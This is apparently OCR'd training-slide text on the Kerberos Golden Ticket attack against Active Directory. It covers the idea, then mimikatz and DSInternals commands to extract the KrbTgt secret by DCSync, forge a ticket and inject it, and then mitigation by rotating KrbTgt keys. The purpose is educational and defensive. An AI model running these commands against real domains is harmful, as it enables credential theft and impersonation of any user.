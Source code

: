 
The attackers know the secret of the KrbtTgt account 
	• Obtained with a DCSync attack 
	• Or a stolen backup 
They can craft their own tickets 
	• Impersonate any user 
	• For as long as the KrbTgt secret is valid 
	• Spoof group membership in the Privilege Attribute Certificate


#### Extract KrbTgt with DSInternals

```powershell
Get-ADReplAccount -user KrbTgt -domain contoso –server dc01
```


#### Extract KrbTgt with mimikatz

```powershell
lsadump::dcsync /domain:contoso.com /user:administrator
```


#### Forge the ticket

```powershell
kerberos::golden /domain:contoso.com /sid: /rc4: /user:administrator /id:500
```


#### On another system

```powershell
kerberos::ptt C:\ticket.kirbi
```


Golden Ticket Attack mitigation

The KrbTgt secret doesn’t change automatically ▪ It might be the same secret used for the last 10 years ▪ Assumed breach! It's possible you may have been compromised 10 years ago, but didn’t have the means to detect it ▪ Rotate the KrbTgt keys is a good idea ▪ It will help you detect Golden Tickets - if they get used with the wrong key, they will generate a specific event on the DCs ▪ Rotate the key twice ▪ As the previous key is still valid ▪ But not twice in a row as it will invalidate all issued TGT and impact users and applications ▪ Unless you are in security incident and want that ▪ Use the script New-KrbtgtKeys.ps1 to rotate the keys

Rotate KrbTgt keys

.\New-KrbtgtKeys.ps1
